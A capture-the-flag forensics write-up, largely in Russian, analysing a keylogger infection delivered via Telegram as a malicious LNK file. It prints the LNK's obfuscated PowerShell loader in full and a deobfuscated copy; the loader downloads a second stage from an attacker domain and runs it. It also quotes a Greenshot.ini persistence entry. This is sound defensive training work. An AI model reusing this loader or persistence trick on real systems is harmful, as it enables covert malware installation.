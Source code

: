 ```yaml
---
link: https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/
tags:
  - LECmd
  - Timeline
  - DBBrowser
---
```

---
## Scenario
>An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.  
>The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

---
# How to solve?
---
## Q1. What is the the web messaging app the employee used to talk to the attacker?

Исходя из сценария:
>After one day, he received a **notification** from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test.

Было решено проверить виндовые уведомления, которые находятся по пути:
`C:\Users\OMEN\AppData\Local\Microsoft\Windows\Notifications\wpndatabase.db`
Открыв с помощью `DB Browser for SQLite` и просмотрев таблицу `Notification` можно обнаружить уведомление из мессенджера **Телеграм**:

![telegram](telegram.png)

> Answer: **telegram**

## Q2. What is the password for the protected ZIP file sent by the attacker to the employee?

В этом же уведомлении из скрина выше находится пароль к архиву
> Answer: @1122d

## Q3. What domain did the attacker use to download the second stage of the malware?

Вот тут пришлось уже покопаться. Решил проверить содержимое архива, который конечно же находится в директории загрузок пользователя **OMEN**.
Архив содержит DOCX документ, и подозрительный LNK-файл ярлык с именем **templet.lnk**.

Анализ файла на VirusTotal подтвердил его вредоносность:
![virustotal](virustotal.png)

Воспользовавшись утилитой **LECmd.exe**:
```bash
LECmd.exe -f '.\templet.lnk' --csv result;                  
```
Далее открыв файл в TimelineExplorer, можно обнаружить, что данный файл запускает процесс **powershell.exe** с обфусцированными параметрами:

Запуск **Powershell.exe**
```bash
..\..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Параметры:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
```

Моя попытка деобфускации кода:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function reverseCharArray($charArray){
  $charArray[$charArray.Length..0] -join('')
}; 
function processString($charArray ){
  $reversedCharArray = reverseCharArray $charArray;
  for($i = 0; $i -lt $reversedCharArray.Length; $i += 2) {
    try {
      $resultString += reverseCharArray $reversedCharArray.Substring($i,2)
    }
    catch {
      $resultString += $reversedCharArray.Substring($i,1)
      }
    };
  $resultString
};

$resultURL = processString 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$filePath = $env:APPDATA + '\' + ($resultURL -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$maliciousCode = wget $resultURL -UseBasicParsing;
[IO.File]::WriteAllText($filePath, $maliciousCode);
& $filePath;
sleep 3;
rm $filePath;
```
*Первая функция* переворачивает массив символов и возвращает его как строку.
*Вторая функция* переворачивает входной массив, затем обрабатывает его по два символа за раз, пытаясь перевернуть каждую пару и добавлять к результату; если остается один символ, добавляет его без изменения.

Проделав функции на данной строке мы получим домен `masherofmasters[.]cyou`
> Answer: masherofmasters.cyou

## Q4. What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?

Загуглив что токое LOLAPPS, мы обнаружим сайт https://lolapps-project.github.io/ который содержит легитимные утилиты, которые могут использоваться в нелегитимных целях. 

В директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружим данные установленных приложений. Среди них: **Adobe, AnyDesk, Greenshot, Microsoft**.

Согласно ресурсу LOLAPPS, приложение Greenshot как раз может использоваться для закрепления на хосте:
> Any Greenshot plugin can contain persistence, the simplest being the "External command plugin" which uses command line; Modify the `Greenshot.ini` file in *"%AppData%\Greenshot\"*, add an `ExternalCommand` configuration, add a new name to the "Commands" parameter, add the payload in the `Commandline.<name>` and `Argument.<name>`, add the name to the "Destinations" parameter. 

Директория Greenshot как раз содержит конфиг файл `Greenshot.ini`. Проанализировав его содержимое, можно обнаружить вышеописанный метод закрепления:
```ini
; The commandline for the output command.
Commandline.MS Paint=C:\Windows\System32\mspaint.exe
Commandline.jlhgfjhdflghjhuhuh=C:\Windows\system32\cmd.exe

; The arguments for the output command.
Argument.MS Paint="{0}"
Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"
```

> Answer: jlhgfjhdflghjhuhuh


## Q5. What is the complete path of the malicious file that the attacker used to achieve persistence

Тут необходимо указать полный путь до вредоносного файла из конфиг файла.

> Answer: C:\Users\OMEN\AppData\Local\Temp\templet.lnk

## Q6. What is the name of the application the attacker utilized for data exfiltration?

Ранее в директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружили данные установленных приложений. Среди них оказался **AnyDesk**. 

> Answer: AnyDesk

## Q7. What is the IP address of the attacker?
Рассмотрим содержимое директории **AnyDesk**, а именно файл `C:Users\OMEN\AppData\Roaming\AnyDesk\ad.trace`.

> Журнал **ad.trace** содержит отладочную информацию, что позволяет определить **IP-адрес**, с которого производилось подключение

Открыв его с помощью текстового редактора, можно увидеть логи ПО AnyDesk.

Поискав по словосочетанию `Connection established`, можно обнаружить следующую информацию:
```log
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Connection established.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Relay connector stopped.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380                       fiber.scheduler - Fiber 27 'relay_connector' (parent: 25) terminated.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   25                anynet.relay_conn - External address: 77.232.122.31:34791.
```

> Answer: 77.232.122.31
